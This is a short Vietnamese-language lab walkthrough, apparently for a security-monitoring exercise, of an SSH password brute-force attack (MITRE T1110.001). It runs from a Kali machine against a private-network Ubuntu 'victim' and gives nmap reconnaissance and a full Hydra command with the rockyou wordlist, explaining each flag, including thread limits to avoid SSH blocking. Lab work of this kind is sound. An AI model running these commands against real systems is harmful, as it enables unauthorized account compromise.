

# Brute Force SSH — Attack Steps
## Thông tin kịch bản
```
Kỹ thuật MITRE ATT&CK        T1110.001 — Brute Force: Password Guessing
Nguồn tấn công               Kali Linux — 192.168.138.20
Mục tiêu                     Ubuntu Agent (Victim 2) — 192.168.138.150
Dịch vụ                      SSH (port 22)
Công cụ                      HydraWordlistrockyou.txt
```

## Các bước thực hiện
### Bước 1 — Trinh sát mục tiêu (Reconnaissance)
- Trước khi tấn công, kẻ tấn công xác nhận cổng SSH của Victim 2 đang mở:
```
nmap -p 22 -sV 192.168.138.150
```


- Ta sử dụng tham số -sV để phát hiện phiên bản của dịch vụ đang chạy trên máy mục tiêu

### Bước 2 — Thực hiện Brute Force bằng Hydra
```
hydra -l ubuntu \-P /usr/share/wordlists/rockyou.txt \ssh://192.168.138.150 \-t 4 -V -o ~/hydra-result.txt
```
Giải thích từng tham số:
```
Tham số                                                     Ý nghĩa
-l ubuntu                                               Sử dụng username mặc định để bruteforce
-P /usr/share/wordlists/rockyou.txt                     Dùng rockyou.txt làm danh sách mật khẩu
ssh://192.168.138.150                                   Giao thức SSH và IP mục tiêu
-t 4                                                    Giới hạn 4 luồng song song (tránh bị SSH block do quá nhiều kết nối đồng thời)
-V                                                      Verbose — hiển thị chi tiết từng lần thử
-o ~/hydra-result.txt                                   Lưu kết quả vào file
```